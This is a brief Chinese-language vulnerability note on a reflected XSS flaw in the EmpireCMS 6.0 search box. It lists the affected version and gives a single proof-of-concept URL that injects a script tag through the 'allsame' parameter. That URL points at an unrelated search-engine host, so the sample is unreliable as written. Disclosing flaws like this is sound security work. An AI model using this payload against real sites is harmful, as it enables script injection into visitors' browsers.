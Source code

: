 # EmpireCMS 6.0 搜索框xss

## 一、漏洞简介

## 二、漏洞影响

EmpireCMS 6.0

## 三、复现过程

```
https://www.baidu.com/search/keyword/index.php?allsame=3"><script>alert(/zerosec/)</script>

```

